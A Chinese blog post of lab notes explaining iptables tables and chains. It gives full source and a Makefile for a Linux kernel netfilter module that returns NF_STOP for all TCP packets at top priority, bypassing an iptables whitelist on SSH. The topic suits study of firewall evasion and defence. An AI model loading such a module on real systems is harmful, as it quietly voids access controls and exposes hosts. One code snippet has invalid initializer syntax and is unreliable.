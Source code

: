 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---  
```


### 前言
本文介绍如何通过加载netfilter模块，使得不用修改iptables即可绕过规则。

本文为实验笔记，所以不对Netfilter以及iptsables进行过多的介绍，读者请先查阅相关知识再阅读本文。
### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：

raw --> mangle --> nat --> filter

------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter

nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat

mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle

raw       表：关闭nat表上启用的连接追踪机制；iptable_raw

------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。

INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，
centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。

OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。

POSTROUTING   的规则可以存在于：mangle表，nat表。

------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT

mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING

nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）

filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT

------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？

有如下场景：

centos7主机限制了ssh的22端口的登录，只能由特定的ip登录

iptables规则如下：

首先在INPUT链中丢弃了所有通往22端口的tcp包

iptables -I INPUT -p tcp --dport 22 -j DROP

然后设置白名单，只允许某一特定ip通过

iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT


从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。

接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh

iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的

所以我们的 nf_hook_ops 结构体将像下面这样初始化：

    static struct nf_hook_ops anyssh_ops = {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
    }
hook回调函数：

我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。

这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。

    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,STOP\n");
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }

### 完整代码：

filter_tcp.c

    #include <linux/module.h>
    #include <linux/kernel.h>
    #include <linux/skbuff.h>
    #include <linux/ip.h>                  /* For IP header */
    #include <linux/netfilter.h>
    #include <linux/netfilter_ipv4.h>


    static struct nf_hook_ops nfho;


    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,drop\n");
                //return NF_DROP;
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }


    int init_module()
    {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
        printk("init_module,filter_tcp\n");
        nf_register_hook(&nfho);


        return 0;
    }


    /* Cleanup routine */
    void cleanup_module()
    {
        printk("cleanup_module,filter_tcp\n");
        nf_unregister_hook(&nfho);
    }



Makefile

    MODULE_NAME:=filter_tcp
    ifneq ($(KERNELRELEASE),)
    mymodule-objs:=${MODULE_NAME}.o
    obj-m:=${MODULE_NAME}.o
    else
    PWD:=$(shell pwd)
    KVER:=$(shell uname -r)


    KDIR:=/lib/modules/$(shell uname -r)/build
    all:
        $(MAKE) -C $(KDIR) M=$(PWD)
    #clean:
        @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
    install:
        echo ${KDIR}
        @insmod ${MODULE_NAME}.ko
    uninstall:
        @rmmod ${MODULE_NAME}.ko
    endif


### 参考链接：
http://www.zsythink.net/archives/1199

### 转载请注明出处

安全编程交流：NzgyNDIxODg3


